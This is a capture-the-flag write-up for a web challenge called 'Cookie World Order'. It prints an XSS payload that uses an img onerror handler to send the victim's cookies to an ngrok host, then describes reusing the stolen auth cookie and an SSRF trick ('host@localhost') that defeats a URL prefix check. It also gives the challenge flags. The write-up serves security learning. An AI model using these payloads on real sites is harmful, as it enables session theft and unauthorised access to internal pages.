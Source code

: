 # Description
## Cookie World Order
Label: web

Good job! You found a further credential that looks like a VPN referred to as the cWo. The organization appears very clandestine and mysterious and reminds you of the secret ruling class of hard shelled turtle-like creatures of Xenon. Funny they trust their security to a contractor outside their systems, especially one with such bad habits.  Upon further snooping you find a video feed of those "Cauliflowers" which look to be the dominant lifeforms and members of the cWo. Go forth and attain greater access to reach this creature!

# Solution
This task gives us a link [https://cwo-xss.web.ctfcompetition.com/](https://cwo-xss.web.ctfcompetition.com/). The website contains a video and a chat window on the right side. It appears that we are chatting with an admin and so it probably requires another xss. However, entering a tag like `<script>` will show up as `HACKER ALERT!`  so it seems that there is some kind check that matches against words like script. Playing around with other tags like `<img>` seem to work however so we can use that instead.

Again, I setup up a ngrok tunnel and used the `onerror` attribute of the `img` tag to send to cookie. This trick I learned about from [https://xss-game.appspot.com/](https://xss-game.appspot.com/)
```html
<img src="?" onerror="document.location='http://???.ngrok.io/?'+document.cookie">
```

Pasting that in the chat window gives us the cookie `CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}`

## Addendum
I saw a mention that there was another flag in this task. With the xss, we got another value called `auth` from the cookie. I originally ignored it but it seems to suggest that it is used to get another flag. Seeing that it was called auth, it was probably for the admin. Adding a cookie with `auth=token` and refreshing the page, gives us a new admin link in the top bar. Clicking on it leads to a `/admin` page with navgation for `Users` `Livestreams` and `Camera Controls`. `Camera Controls` is the only interesting one as the others are blank. It leads to `/admin/controls` and responds with `Requests only accepted from 127.0.0.1`. So we need the server to load the file for us. Luckily, the server does load a file: the livestream.webm. If we could get the server to load the `/admin/controls.html` page as a file instead that could work. Looking at the livestream url, it loads from `https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com`. Trying `https://cwo-xss.web.ctfcompetition.com/watch?livestream=/admin/controls.html`  doesn't work however. It gives `Forbidden. Your only allowed to make requests to "http://cwo-xss.web.ctfcompetition.com"`. After more attempts, it seems to just be doing a startswith check on the url so we need a way to have `http://cwo-xss.web.ctfcompetition.com` at the start but still have it resolve to a local file. This is where I learned about `Local file inclusion` where a file is included in the url and this can lead to vulnerabilities. In the [URI scheme](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier), there is a user field that can be specified so if we put `cwo-xss.web.ctfcompetition.com@127.0.0.1/admin/controls.html` then it should pass the check and `127.0.0.1/admin/controls.html` will be the filepath. `https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com@127.0.0.1/admin/controls` does not work but `https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com@localhost/admin/controls.html` does and gives the flag `CTF{WhatIsThisCookieFriendSpaceBookPlusAllAccessRedPremiumThingLooksYummy}`
